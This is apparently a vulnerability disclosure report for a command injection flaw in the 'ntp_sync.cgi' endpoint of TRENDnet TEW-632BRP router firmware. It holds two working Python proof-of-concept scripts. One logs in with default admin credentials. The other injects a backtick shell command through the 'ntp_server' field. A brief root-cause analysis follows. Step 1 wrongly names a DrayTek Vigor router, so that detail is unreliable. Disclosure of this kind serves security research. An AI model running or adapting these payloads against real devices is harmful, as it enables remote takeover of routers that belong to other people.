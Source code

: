 

# CVE Report - Command Injection Vulnerability in TEW_632BRPA1_FW1.10B31  Routers 

## Vulnerability Title

Command Injection Vulnerability in TEW_632BRPA1_FW1.10B31 Routers 

## Vulnerability Description

TRENDnet TEW-632BRP v1.010B31 devices have an OS command injection vulnerability
in the CGl interface "ntp_sync.cgi",which allows remote attackers to execute arbitrary
commands via parameter "ntp_server" passed to the "ntp_sync.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the DrayTek Vigor router.

```python
import requests

device_web_ip = '172.17.0.23'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
import requests
import pickle 
import time

device_web_ip = "172.17.0.23"
base_url = "http://172.17.0.23/"


headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {'ntp_server':'`ping -c 2 172.17.0.1`'}
r = requests.post(url=base_url+'ntp_sync.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v4 by setting the ntp_server value. After sprintf splicing, it enters v7 and finally enters system execution, resulting in a command execution vulnerability.

![image-20241227230021549](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241227230021549.png)

